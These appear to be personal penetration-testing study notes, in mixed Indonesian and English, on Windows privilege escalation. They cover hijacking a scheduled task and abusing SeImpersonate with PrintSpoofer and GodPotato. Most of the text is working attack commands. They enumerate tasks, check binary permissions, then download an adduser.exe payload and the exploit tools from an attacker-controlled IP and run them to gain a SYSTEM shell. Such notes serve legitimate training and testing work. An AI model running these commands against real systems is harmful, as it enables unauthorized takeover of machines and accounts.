8. Boom!


## Scheduled Task (PENTING) #IMPORTANT

three pieces of information are vital to obtain from a scheduled task to identify possible privilege escalation vectors:
1) As which user account (principal) does this task get executed?
>> Cek tasknya diexecute sama user yg penting gk? kyk NT AUTHORITY\SYSTEM or as an administrative user

2) What triggers are specified for the task?
3) What actions are executed when one or more of these triggers are met?

Steps:
1) View scheduled task
```cmd
Get-ScheduledTask
Get-ScheduledTask | where {$_.TaskPath -notlike "%SystemRoot%" -and $_.TaskPath -notlike "%windir%" -and $_.TaskPath -notlike "COM handler"} | ft TaskName,TaskPath,State
or
schtasks /query
schtasks /query /fo LIST /v
schtasks /query /fo LIST /v > schtask_list.txt 

>> search aja pake notepad or grep. Cari yg ada "Task To Run" dan suspicious
```
>> Liat "TaskName", "Run As User", "Author", DAN "Task To Run" >> Kalo binarynya di custom path, it's suspicious
>> Liat "Schedule Type" >> buat tau kapan dia keeksekusi lagi. Biasanya kyk cron per 1 menit

2) Check permission binary tasknya. Bisa kita replace gk?
```cmd
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```
3) Kalo kita ada akses, ya timpa aja
```cmd
iwr -Uri http://192.168.119.3/adduser.exe -Outfile BackendCacheCleanup.exe
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
move .\BackendCacheCleanup.exe .\Pictures\
```
4) Boom.


## Using Exploits (ini izi bgt, tinggal google whoami /priv sati-satu aja)
SELALU CEK INI `whoami /priv`
SeBackupPrivilege, 
SeAssignPrimaryToken, 
SeLoadDriver, 
SeImpersonatePrivilege,
SeDebug

1. Ya, kyk biasa, cari vulnerable kernel, application, or privilege. and Exploit it
2. Module ini cuma jelasin PrinterSpoofer (SeImpersonatePrivileges)
```cmd
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe 
python3 -m http.server 8000
iwr -uri http://192.168.45.168:8000/PrinterSpoofer/PrintSpoofer64.exe -Outfile PrintSpoofer64
.\PrintSpoofer64.exe -i -c powershell.exe
whoami
```
3. Coba kita test pake godpotato.
```cmd
reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s
iwr http://192.168.45.168:8000/GodPotato/GodPotato-NET4.exe -outfile GodPotato-NET4.exe
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
```